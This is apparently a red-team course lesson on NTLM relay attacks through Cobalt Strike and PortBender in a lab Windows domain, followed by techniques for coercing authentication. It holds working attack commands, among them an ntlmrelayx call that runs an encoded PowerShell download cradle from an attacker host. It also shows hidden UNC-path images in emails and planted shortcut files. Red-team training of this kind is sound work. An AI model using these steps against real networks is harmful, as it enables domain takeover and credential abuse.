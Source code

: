 NTLM authentication uses a 3-way handshake between a client and server.  The high-level steps are as follows:

1. The client makes an authentication request to a server for a resource it wants to access.
2. The server sends a challenge to the client - the client needs to encrypt the challenge using the hash of their password.
3. The client sends the encrypted response to the server, which contacts a domain controller to verify the encrypted challenge is correct.

In an NTLM relay attack, an attacker is able to intercept or capture this authentication traffic and effectively allows them to impersonate the client against the same, or another service.  For instance, a client attempts to connect to Service A, but the attacker intercepts the authentication traffic and uses it to connect to Service B as though they were the client.

  Windows Server 2022 domain controllers enable "Network Server: Digitally sign communications (always)" to Enabled by default, making this style of attack unviable.

  

During an on-premise penetration test, NTLM relaying with tools like [Responder](https://github.com/lgandx/Responder) and [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/tree/master/impacket/examples/ntlmrelayx) is quite trivial.  However, it's a different story with this style of red team assessment, not least because we can't typically run Python tools on Windows.  Port 445 is always bound and in use by Windows - even local admins can't arbitrarily redirect traffic bound to this port or bind another tool to this port.

It's still possible to do with Cobalt Strike, but requires the use of multiple capabilities simultaneously.

1. A [driver](https://reqrypt.org/windivert.html) to redirect traffic destined for port 445 to another port (e.g. 8445) that we can bind to.
2. A reverse port forward on the port the SMB traffic is being redirected to.  This will tunnel the SMB traffic over the C2 channel to our Team Server.
3. The tool of choice (ntlmrelayx) will be listening for SMB traffic on the Team Server.
4. A SOCKS proxy is to allow ntlmrelayx to send traffic back into the target network.

  

The flow looks something like this:

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/relaying/overview.png)

  

First, ensure all the pre-requisites are in place before launching the actual attack.  Obtain a SYSTEM beacon on the machine you will capture the SMB traffic on.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/ad5/e2d/5c7/system-beacon.png)

  

Next, allow those ports inbound on the Windows firewall.
```
beacon> powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```
  

Then start two reverse port forwards - one for the SMB capture, the other for a PowerShell download cradle.
```
beacon> rportfwd 8445 localhost 445
[+] started reverse port forward on 8445 to localhost:445

beacon> rportfwd 8080 localhost 80
[+] started reverse port forward on 8080 to localhost:80
```
  

The final part of the setup is to start a SOCKS proxy that ntlmrelayx can use to send relay responses back into the network.
```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```
  

Now we can start `ntlmrelayx.py` listening for incoming connections on the Team Server.  The `-c` parameter allows us to execute an arbitrary command on the target after authentication has succeeded.
```
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAyADMALgAxADAAMgA6ADgAMAA4ADAALwBiACIAKQA='
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```
  

Where:

- 10.10.122.10 is the IP address of `dc-2.dev.cyberbotic.io`, which is our target.
- The encoded command is a download cradle pointing at `http://10.10.123.102:8080/b`, and `/b` is an SMB payload.

  

[PortBender](https://github.com/praetorian-inc/PortBender) is a reflective DLL and aggressor script specifically designed to help facilitate relaying through Cobalt Strike.  It requires that the driver be located in the current working directory of the Beacon.  It makes sense to use `C:\Windows\System32\drivers` since this is where most Windows drivers go.
```
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```
  

Then go to _Cobalt Strike > Script Manager_ and load `PortBender.cna` from `C:\Tools\PortBender` - this adds a new `PortBender` command to the console.
```
beacon> help PortBender
Redirect Usage: PortBender redirect FakeDstPort RedirectedPort
Backdoor Usage: PortBender backdoor FakeDstPort RedirectedPort Password
Examples:
	PortBender redirect 445 8445
	PortBender backdoor 443 3389 praetorian.antihacker
```
  

Execute PortBender to redirect traffic from 445 to port 8445.
```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
```

  This pretty much breaks any legitimate SMB service on the machine.

  

To trigger the attack, we need to coerce a user or a machine to make an authentication attempt to Workstation 2.  Let's do it manually for now, by using the console of Workstation 1 as the user nlamb.  This user is a domain admin, so we can relay the authentication request to the domain controller.
```
C:\Users\nlamb>hostname
wkstn-1

C:\Users\nlamb>dir \\10.10.123.102\relayme
```
  

You should see PortBender log the connection and ntlmrelayx will spring into action.
```
[*] SMBD-Thread-3: Received connection from 127.0.0.1, attacking target smb://10.10.122.10
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:445-<><>-OK
[*] Authenticating against smb://10.10.122.10 as DEV/NLAMB SUCCEED
[*] Executed specified command on host: 10.10.122.10
```
  

ntlmrelayx reports that the command was executed - we can check the web log to confirm we received a hit.
```
09/05 13:34:16 visit (port 80) from: 127.0.0.1
	Request: GET /b
	page Scripted Web Delivery (powershell)
	null
```
  

All that's left is to link to the Beacon.
```
beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.10
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/d2a/133/3d1/relayed-beacon.png)

  

To stop PortBender, stop the job and kill the spawned process.
```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 2    5740  PortBender

beacon> jobkill 2
beacon> kill 5740
```
  

  **OPSEC**  
  
One of the main indicators of this activity is the driver load event for WinDivert.  You can find driver loads in Kibana using the "Loaded Drivers" saved search.

  

  You can find driver loads in Kibana using Sysmon Event ID 6.  Even though the WinDivert driver has a valid signature, seeing a unique driver load on only one machine is an anomalous event.

event.module: sysmon and event.code: 6 and not file.code_signature.subject_name: "Amazon Web Services, Inc."

  

### Forcing NTLM Authentication

In the real world, it's unlikely you can just jump onto the console of a machine as a privileged user and authenticate to your malicious SMB server.  You can of course just wait for a random event to occur, or try to socially engineer a privileged user.  However, there are also lots of techniques to "force" users to unknowingly trigger NTLM authentication attempts to your endpoint.

Here are a few possibilities.

#### 1x1 Images in Emails

If you have control over an inbox, you can send emails that have an invisible 1x1 image embedded in the body.  When the recipients view the email in their mail client, such as Outlook, it will attempt to download the image over the UNC path and trigger an NTLM authentication attempt.

<img src="\\10.10.123.102\test.ico" height="1" width="1" />

  

A sneakier means may be to modify the sender's email signature, so that even legitimate emails they send will trigger NTLM authentication from every recipient who reads them.

#### Windows Shortcuts

A Windows shortcut can have multiple properties including a target, working directory and an icon.  Creating a shortcut with the icon property pointing to a UNC path will trigger an NTLM authentication attempt when it's viewed in Explorer (it doesn't even have to be clicked).  A good location for these is on publicly readable shares.

The easiest way to create a shortcut is with PowerShell.
```powershell
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\dc-2\software\test.lnk")
$shortcut.IconLocation = "\\10.10.123.102\test.ico"
$shortcut.Save()
```
  

#### Remote Authentication Triggers

Tools such as [SpoolSample](https://github.com/leechristensen/SpoolSample), [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) and [PetitPotam](https://github.com/topotam/PetitPotam) can force a computer into authenticating to us.  These generally work via Microsoft RPC protocols, such as [MS-RPRN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and [MS-EFS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/4892c610-4595-4fba-a67f-a2d26b9b6dcd).